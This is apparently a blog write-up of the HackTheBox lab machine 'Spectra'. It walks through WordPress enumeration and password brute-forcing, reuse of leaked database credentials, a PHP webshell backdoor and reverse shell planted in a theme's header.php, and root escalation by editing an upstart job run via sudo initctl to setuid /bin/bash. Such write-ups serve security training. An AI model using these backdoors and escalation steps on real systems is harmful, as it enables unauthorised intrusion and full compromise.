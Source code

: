 ```yaml
---
layout: post
title: "HTB - Spectra"
author: "BoT"
tags: "hackthebox"
excerpt_separator: <!--more-->
---
```


Spectra has just retired from HackTheBox! Here's a quick and dirty writeup on my thought process while solving it.

<!--more-->

## HackTheBox - Spectra

**Box**: Spectra\
**IP address**: 10.10.10.229 \
**Local**: e89d27fe195e91██████████████████ \
**Proof**: d44519713b889d5██████████████████ \
**Lesson learnt**:

- If PHP files are blank, view them via `source-view` within the browser.
- Take a closer look into results shown by `linpeas.sh`. Don't skip over them just because you are lazy! Take time to scroll through them.
- If modification based on existing (original) script doesn't work, just rewrite them from scratch.

### Local

#### Enumeration

Nmap scans reveals that Spectra is a rather straight foward box with only 3 open ports: `:22`, `:80`, `:3306`. Since MySQL port cannot be accessed remotely, I decided to focused on the webserver first.

Upon accessing the site, I see hints -- at the source code -- that suggests the need for the box's IP address to be mapped to `spectra.htb`. This prompted me edit `/etc/hosts` as shown below. With this, I can now access 10.10.10.229 with just `http://spectra.htb` via browser.

![webserver](../assets/202106_htb_spectra/0_webserver_hint.png)
![ip-hostname-mapping](../assets/202106_htb_spectra/1_host_mapping.png)

While manually enumerating the webserver, I noticed that `spectra.htb/main` is a WordPress directory. Further enumeration via `wpscans` yield no interesting results except that `administrator` was a valid user.

```bash
wpscan --url http://spectra.htb/main --enumerate u
wpscan --url http://spectra.htb/main --passwords /usr/share/wordlists/rockyou.txt --usernames administrator --wp-content-dir http://10.10.10.229/main/wp-content
```

Switching over to `spectra.htb/testing`, I noticed that this directory is essentially a copy of `/main`. The latter is likely a development environment used for testing before being pushed to production at `/main`.

In this directory, I found `wp-config.php.save`, an interesting file with database credentials. I initially disregarded this file as I didn't view the page via `source-view` and assumed it to be just a blank file. Yikes.

![sql-credentials](../assets/202106_htb_spectra/2_sql_credentials.png)

As `:3306` doesn't allow remote login, I tried using this set of credentials to log into the WordPress platform. `devtest:devteam01` wasn't successful, but `administrator:devteam01` worked just fine.

#### Attack Vector

Now that we have access to WordPress, I tried adding a simple PHP backdoor at `header.php` -- found by navigating to `Appearance > Theme Editor > Theme Header`.

```php
# Simple PHP backdoor script
<?php echo system($_GET["cmd"]); ?>  
```

After several tries, I realised that the edit function doesn't work for themes actively in use. I have to add this backdoor script to an inactive theme, then navigate to `Appearance > Themes` and switch to the modified theme. RCE is now possible!

I confirmed this by navigating to `spectra.htb/main/?cmd=whoami`. Success!

![successful-rce](../assets/202106_htb_spectra/3_rce.png)

Unfortuantely, attempting to trigger a reverse shell via this backdoor didn't work. Instead, I utilized PHP shell from `/usr/share/webshells/php/php-reverse-shell.php` and added it to the `header.php`. Woohoo, a low-privilege shell!

![php-reverse-shell](../assets/202106_htb_spectra/4_php_reverse_shell.png)
![web-shell](../assets/202106_htb_spectra/5_web_shell.png)

#### Escalating to User Shell

While enumerating the webshell with `linpeas.sh`, I found more database credentials. Unfortunately, it doesn't seem to yield anything useful when I enumerated the database. A dead end.

```bash
# Credentials used: development01
mysql -u dev -p
```

![database-credentials](../assets/202106_htb_spectra/6_more_db_credentials.png)
![database-enumeration](../assets/202106_htb_spectra/7_interesting_hash.png)

After a second look into the results obtained from `linpeas.sh`, I found some autologin credentials.

![autologin-credentials](../assets/202106_htb_spectra/8_autologin_credentials.png)

Great! I can now SSH to user with the credentials!

![ssh-katie](../assets/202106_htb_spectra/9_ssh_successful.png)
![local.txt](../assets/202106_htb_spectra/10_local.png)

### Proof

#### Enumeration

Now as Katie, `linpeas.sh` provies us with more information. In particular, `sudo -l` shows that Katie has permission to run `/sbin/initctl` as root without password.

![sudo-permissions-available](../assets/202106_htb_spectra/11_sudo_permission.png)

Katie also has write permission at various test files located in `/etc/init`.

![write-permision-available](../assets/202106_htb_spectra/12_write_permission.png)

A quick research on `initctl` shows that the binary allows a system administrator to communicate and interact with the upstart scripts -- aka 'System Jobs' located in `/etc/init` -- and are run with sudo privilege.

#### Escalation Vector

Seems like editing any `.conf` files within `/etc/init` to include malicious commands -- such as enabling `/bin/bash`'s sticky bits -- would yield me a root shell! With that in mind, I edited `test.conf` with the contents below so that when ran with `sudo /sbin/initctl`, the `/bin/bash` executable will set its permissions to that of the user who created it (root).

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script
```

All's left is to trigger the edited script and spawn the root shell!

```bash
sudo /sbin/initctl start test
/bin/bash -p
```

![pe-vector](../assets/202106_htb_spectra/13_pe_vector.png)
![proof.txt](../assets/202106_htb_spectra/14_proof.png)
